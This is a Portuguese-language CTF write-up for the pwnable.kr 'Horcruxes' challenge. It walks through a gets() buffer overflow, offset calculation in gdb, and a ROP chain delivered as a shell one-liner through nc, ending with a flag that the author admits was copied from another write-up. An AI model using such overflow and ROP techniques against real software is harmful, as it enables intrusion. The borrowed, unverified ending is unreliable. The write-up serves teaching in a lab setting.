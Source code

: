 # DuckWare Team - Horcruxes (pwnable.kr)
###### Solved by @JoãoPedroPiceli and @xpics:)

> Este CTF aborda a exploração de **Return Oriented Programming (ROP)** para obter controle do fluxo de execução e acessar a flag.

---
# 🎯 Desafio: Horcruxes (pwnable.kr) - Exploração de ROP

## 📂 Baixando os Arquivos

baixando todos os arquivos do desafio usando:

```sh
scp -r -P2222 horcruxes@pwnable.kr:~/ ./
```

## 🔍 Analisando o Código com Ghidra

Ao decompilar o binário no **Ghidra**, identificamos:
- A função `main` limita certos **syscalls**.
- `init_ABCDEFG` gera **sete números aleatórios** (A-G).
- A função `ropme` permite **adivinhar um número** e chama `gets()`, onde há um **buffer overflow**.

```c
else {
    printf("How many EXP did you earn? : ");
    gets(local_78);  // Vulnerabilidade de buffer overflow
    iVar1 = atoi(local_78);
    if (iVar1 == sum) {
      local_10 = open("flag",0);
      sVar2 = read(local_10,local_78,100);
      local_78[sVar2] = '\0';
      puts(local_78);
      close(local_10);
      exit(0);
    }
}
```

## 🛠 Criando a Cadeia de ROP

O objetivo é **explorar o buffer overflow** e **executar as funções A-G** para imprimir os números aleatórios.

### **Endereços importantes**

Executamos `gdb` para inspecionar `ropme`:

```sh
disas ropme
```

Observamos que `gets()` escreve em `0xffffdb54`, enquanto o retorno da função `ropme` está em `0xffffdbcc`.

```sh
0xffffdb54 - 0xffffdbcc = 0x78 = 120 bytes
```

Ou seja, precisamos enviar **120 bytes de lixo**, seguidos pelos **endereços das funções A-G** e o endereço do `jmp ropme` dentro de `main`.

### **Extraindo os Endereços**

```sh
readelf -s horcruxes | grep FUNC
```

Isso nos dá os **endereços das funções relevantes**.

## 🚀 Criando e Executando o Payload

O ataque consiste em:
1. **120 bytes de preenchimento**
2. **Endereços das funções A-G**
3. **Endereço do `jmp ropme`**

Montamos e enviamos o exploit:

```sh
(echo 15; (for i in {1..120}; do printf %s 49; done;) | xxd -r -p; 
echo 4bfe09086afe090889fe0908a8fe0908c7fe0908e6fe090805ff0908fcff0908 0a | xxd -r -p; cat) | nc 0 9032 -q 1
```

## 🏆 Obtendo a Flag

Ao executar o exploit:
- Os **sete números aleatórios** são impressos.
- Calculamos e enviamos a soma correta.
- A flag é revelada! 🎉
- Obs: Não foi possível finalizar o desafio, pois o site saiu do ar. Por esse motivo, não consegui imprimir as mensagens que aparecem nem calcular o valor exato. O final e a flag que se encontram como resultado são mérito de: https://github.com/golombi/Pwnable.kr-CTF-Writeups/blob/main/horcruxes

```
Magic_spell_1s_4vad4_K3daVr4!
```
```
